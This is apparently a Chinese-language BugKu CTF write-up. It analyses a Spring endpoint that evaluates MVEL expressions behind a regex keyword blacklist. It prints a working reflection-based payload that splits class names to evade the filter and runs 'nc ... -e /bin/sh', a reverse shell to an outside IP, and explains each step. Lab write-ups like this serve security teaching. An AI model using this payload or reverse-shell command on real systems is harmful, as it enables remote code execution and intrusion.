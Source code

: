 ### Java 反射机制 RCE

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/681079d158cb8da5c8d3dfa5.png)

打开页面只有这一个功能可用

![](https://pic1.imgdb.cn/item/681085c058cb8da5c8d415aa.png)

在 Burp 中发现响应有个 `source`

![](https://pic1.imgdb.cn/item/6810860b58cb8da5c8d417c4.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/6810863858cb8da5c8d41915.png)

使用 `@RestController` 注解，表示这是一个 Spring MVC 控制器，返回值会自动转换为 JSON 响应

```java
@RestController
public class MVELTest {
    // 类内容
}
```

初始化一个 `Setting` 对象，包含默认的 IP 列表和数字参数 6

```java
private Setting setting = new Setting("['115.195.167.159', '115.195.167.159', '164.90.230.201', '174.87.232.68']", 6);
```

处理 POST 请求，路径为 `/updateSysSetting`

接收 JSON 格式的 `Setting` 对象作为请求体

返回 JSON 响应，字符编码为 UTF-8

```java
@PostMapping(value = "/updateSysSetting", produces = "application/json;charset=UTF-8")
public ResponseObj updateSysSetting(@RequestBody Setting [ES], HttpServletResponse response) {
    // 方法实现
}
```

使用正则表达式检测传入的表达式是否包含危险关键词（如 Runtime、Process 等）

如果检测到恶意代码，返回 483 状态码和错误信息

```java
if (Pattern.matches(""{?i}.*(system[Runtime|Process|Thread|Lookup|http|Socket|restTemplate|MVEL|flag].*", [ES].getExp()) {
    response.setStatus(483);
    return new ResponseObj(false, "表达式包含恶意代码", "");
}
```

使用 MVEL 引擎执行传入的表达式

捕获并处理执行过程中的异常

```java
try {
    result = MVEL.expl(res.getExp());
    System.out.println(result.toString());
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式语法错误", e.getMessage());
}
```

尝试将结果转换为 `List<String>`（IP 列表）

如果转换失败，返回 580 状态码和错误信息

```java
try {
    allowedIP = (List<String>) result;
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式返回值不是IP列表", e.getMessage());
}
```

分析完毕后我们可以利用 Java 的反射机制来 RCE

```json
{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 144.34.162.13 6666 -e /bin/sh'))",
"limit": "60"
}
```

下面来解析下这段 payload

```java
// ''.getClass(): 获取空字符串的 Class 对象
''.getClass().forName('java.lang.Run'+'time')	// .forName('java.lang.Run'+'time'): 动态加载 java.lang.Runtime 类并返回其 Class 对象
  .getMethod('exec',''.getClass())	// 获取 Runtime.exec(String) 方法的 Method 对象
  .invoke(
    ''.getClass().forName('java.lang.Run'+'time')	// 再次获取 Runtime 类
      .getMethod('getRu'+'ntime')	// 获取静态方法 getRuntime()
      .invoke(null),	// 调用该方法（invoke(null) 因为这是静态方法）,返回 Runtime 类的单例实例
    'nc 144.34.162.13 6666 -e /bin/sh'	// 使用前面获取的 exec 方法，在 Runtime 实例上执行命令
  )
```

发送 payload

![](https://pic1.imgdb.cn/item/68108a8558cb8da5c8d42ac6.png)

监听端口拿到 flag

![](https://pic1.imgdb.cn/item/68108a9b58cb8da5c8d42ad5.png)

